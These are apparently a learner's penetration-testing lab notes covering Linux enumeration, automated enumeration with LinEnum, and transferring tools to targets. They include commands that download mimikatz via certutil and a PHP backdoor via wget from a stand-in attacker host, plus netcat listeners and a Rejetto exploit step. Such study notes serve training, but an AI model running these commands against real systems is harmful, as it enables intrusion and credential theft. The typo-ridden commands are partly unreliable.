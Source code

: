 - route
- shell
- ip a s
- cat /etc/networks interfaces and configuration 
- cat /etc/hostname domain 
- cat /etc/hosts internal Network
- cat /etc/resolv.conf nameserver
- arp -a OR go in menterpreter
- arp
- 
### Enumerating Processes and Cron Jobs
- RUnning Services, Cron Jobs
- ps
- pgrep
- shell
- ps aux
- top all running process
- crontab -l
- ls -al /etc/cron*
- cat /etc/cron*
- 
### Automating Linux Local Enumeration
- https://github.com/rebootuser/LinEnum
- nmap -sV <target-ip>
- shellshock
- search enum_configs
- search
- search enum_network
- search enum_system
- search checkvm
- now copy the lienum file and paste it in lab env and run after assigning +x permission
- ./LinEnum.sh
- 

## Transferring Files to Target System
### Python Server
- SimpleHTTPServer Python2 and http.server Python3
- python -m SimpleHTTPServer 80
- python3 -m http.server

### Transferring Files to Windows Targets
- nmap
- Procedure: need to put nc.exe in windows then start the listener and run the .py script of rejetto.
- cd /usr/share/windows-binaries
- python3 -m http.server 80
- nc -lvnp 1234
- and then run .py exploit twice
- certutil -urlcache -f http://<attacker-ip>/mimicatz.exe mimikatz.exe
- .\mimikatz.exe
- privilege::debug  
- 
### Transferring Files to Linux Target
- nmap
- search samba/*pipename
- cd /usr/share/webshells
- python3 -m http.server
- wget http://<attacker_ip>php-backdoor.php
- 